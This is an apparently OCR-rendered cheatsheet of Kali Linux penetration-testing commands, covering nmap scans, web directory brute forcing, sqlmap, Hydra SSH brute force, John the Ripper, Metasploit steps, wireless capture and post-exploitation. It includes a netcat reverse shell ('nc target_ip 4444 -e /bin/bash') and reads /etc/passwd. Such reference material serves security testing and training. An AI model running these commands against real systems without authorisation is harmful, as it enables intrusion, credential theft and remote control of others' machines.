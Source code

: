 # 🛠️ Kali Linux Command Cheatsheet

## System Commands
pwd # Show current directory
ls -la # List all files
cd /path # Change directory
sudo su # Switch to root

text

## Network Reconnaissance
Nmap
nmap -sn 192.168.1.0/24 # Network discovery
nmap -sV target_ip # Service version detection
nmap -A -T4 target_ip # Aggressive scan

Ping
ping target_ip # Check if host is alive

Netstat
netstat -tuln # Show listening ports

text

## Web Application Testing
Nikto
nikto -h http://target_ip # Web server scan

Dirb/Gobuster
dirb http://target_ip # Directory brute force
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt

SQLMap
sqlmap -u "http://target/page?id=1" --dbs # SQL injection

text

## Password Cracking
John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Hydra
hydra -l admin -P passwords.txt target_ip ssh

text

## Exploitation
Metasploit
msfconsole # Start Metasploit
search exploit_name # Search exploits
use exploit_path # Select exploit
show options # View required options
set RHOST target_ip # Set target
exploit # Run exploit

text

## Wireless
Aircrack-ng
airmon-ng start wlan0 # Enable monitor mode
airodump-ng wlan0mon # Capture packets

text

## Post-Exploitation
Netcat reverse shell
nc -lvnp 4444 # Listener
nc target_ip 4444 -e /bin/bash # Connect back

text

## File Operations
find / -name "*.conf" 2>/dev/null # Find config files
cat /etc/passwd # View users
sudo -l # Check sudo privileges

text
undefined
